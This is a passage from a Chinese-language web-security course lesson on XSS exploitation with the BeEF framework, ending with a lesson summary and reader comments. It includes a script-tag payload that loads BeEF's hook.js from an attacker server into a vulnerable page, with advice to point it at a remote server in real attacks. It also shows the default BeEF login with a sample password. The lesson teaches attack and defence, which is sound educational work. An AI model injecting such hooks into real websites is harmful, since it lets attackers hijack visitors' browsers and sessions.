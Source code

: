 <p data-nodeid="53256"><img src="https://s0.lgstatic.com/i/image/M00/8B/A8/CgqCHl_cOyKADDkjAAC98rkZQJg985.png" alt="Drawing 24.png" data-nodeid="53483"></p>
<div data-nodeid="53257"><p style="text-align:center">图 25：返回 hook.js 和管理界面地址</p></div>
<p data-nodeid="53258">我本地得到地址是：http://127.0.0.1:3000/hook.js（实际攻击时，可将 127.0.0.1 替换成你的远程服务器地址），那我就可以在漏洞页面插入如下代码进行利用：</p>
<pre class="lang-java" data-nodeid="53259"><code data-language="java">&lt;script&gt;http:<span class="hljs-comment">//127.0.0.1:3000/hook.js&lt;/script&gt;</span>
</code></pre>
<p data-nodeid="53260">受害者访问后，若利用成功的话，在 BeEF 管理页面（此处为 http://127.0.0.1:3000/ui/panel）就可以看到目标上线了。</p>
<p data-nodeid="53261"><img src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOymAFUlLAAJ8WDrvvw8214.png" alt="Drawing 25.png" data-nodeid="53488"></p>
<div data-nodeid="53262"><p style="text-align:center">图 26：BeEF 漏洞利用框架</p></div>
<p data-nodeid="53263">刚运行的时候，BeEF 会生成随机密码，账号为 beef，比如：</p>
<pre class="lang-java" data-nodeid="53264"><code data-language="java">Beef credentials: beef:aaGivbkemeYNtCYRFrlyQN75lcmMYMm5
</code></pre>
<p data-nodeid="53265">用上面的账号密码登录即可；你也可以修改 config.yaml 中的账号密码再运行。</p>
<p data-nodeid="53266">BeEF 上面的利用功能实在是太多了，你可以把每个功能都试用一下，相信你试用完之后会对 XSS 的危害和利用手法有新的认识。</p>
<h3 data-nodeid="53267">总结</h3>
<p data-nodeid="53268">最后，我对这一讲的内容做个总结。</p>
<p data-nodeid="53269">首先，我介绍了 XSS 的起源以及危害，然后讲解了反射型、存储型和 DOM 型 XSS 的原理，并从代码层面分析了漏洞成因。随后我介绍了各种常见的 XSS 攻击手法，结合实例分析了 Cookie 窃取和蠕虫攻击的具体实现，帮助你进一步了解 XSS 的危害。</p>
<p data-nodeid="53270">BeEF 是一款优秀的 XSS 攻击框架，包含有非常丰富的 XSS 漏洞利用功能，如果你想深入学习 XSS 的攻击手段，从 BeEF 入手是不错的选择。BeEF 已经在 GitHub 开源，主要是采用 JavaScript 和 Ruby 开发，你可以重点研究下漏洞利用中的 JavaScript 代码，即 hook.js 文件。</p>
<p data-nodeid="53271">如果你有什么好的 BeEF 利用技巧，或者是其他优秀的 XSS 利用工具，欢迎你在留言区留言推荐。</p>
<p data-nodeid="53272">下一讲，我将介绍如何挖掘三大类型的 XSS 漏洞以及如何防御，到时见~</p>
<p data-nodeid="53273" class=""><img src="https://s0.lgstatic.com/i/image2/M01/03/E8/CgpVE1_kTHSAL9KqAAUNAGwX_GM335.png" alt="Lark20201224-160053.png" data-nodeid="53501"></p>

---

### 精选评论

##### **文：
> hellosamy那个，为什么蠕虫代码还要在body插入恶意脚本？不是已经执行main函数了吗😁

 ###### &nbsp;&nbsp;&nbsp; 讲师回复：
> &nbsp;&nbsp;&nbsp; 从代码逻辑上看确实可以不需要，但目前找到的样本都有这行代码

##### *贤：
> 不错不错👍

